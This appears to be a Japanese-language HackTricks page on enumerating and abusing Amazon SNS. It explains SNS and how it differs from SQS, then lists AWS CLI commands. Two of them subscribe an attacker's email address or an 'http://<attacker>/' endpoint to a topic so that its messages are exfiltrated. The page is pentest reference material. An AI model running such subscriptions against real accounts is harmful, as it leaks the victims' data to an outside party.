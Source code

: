 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) は **完全に管理されたメッセージングサービス** として説明されています。これは **アプリケーション間** (A2A) と **アプリケーションから人** (A2P) の通信タイプの両方をサポートしています。

A2A通信の主な機能には **公開/購読 (pub/sub) メカニズム** が含まれます。これらのメカニズムは **トピック** を導入し、高スループットの **プッシュベースの多対多メッセージング** を可能にするために重要です。この機能は、分散システム、マイクロサービス、およびイベント駆動型サーバーレスアーキテクチャを含むシナリオで非常に有利です。これらのトピックを活用することで、発行システムは **広範囲の購読システム** にメッセージを効率的に配信し、ファンアウトメッセージングパターンを促進できます。

### **Difference with SQS**

**SQS** は **キューに基づく** サービスであり、ポイントツーポイント通信を可能にし、メッセージが **単一の消費者** によって処理されることを保証します。これは **少なくとも1回の配信** を提供し、標準およびFIFOキューをサポートし、再試行や遅延処理のためのメッセージ保持を許可します。\
一方、**SNS** は **公開/購読に基づくサービス** であり、メッセージを **複数の購読者** に同時にブロードキャストすることによって **1対多** の通信を可能にします。これは **メール、SMS、Lambda関数、HTTP/HTTPS** などのさまざまな購読エンドポイントをサポートし、ターゲットメッセージ配信のためのフィルタリングメカニズムを提供します。\
両方のサービスは分散システム内のコンポーネント間のデカップリングを可能にしますが、SQSはキュー通信に焦点を当て、SNSはイベント駆動型のファンアウト通信パターンを強調しています。

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
> [!CAUTION]
> **トピックがFIFOタイプの場合**、**SQS**プロトコルを使用するサブスクライバーのみが使用できます（HTTPまたはHTTPSは使用できません）。
>
> また、`--topic-arn`にリージョンが含まれていても、**`--region`**で正しいリージョンを指定することを確認してください。そうしないと、アクセスがないことを示すようなエラーが表示されますが、問題はリージョンです。

#### 認証されていないアクセス

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### 権限昇格

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### ポストエクスプロイト

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### 永続性

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## 参考文献

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}
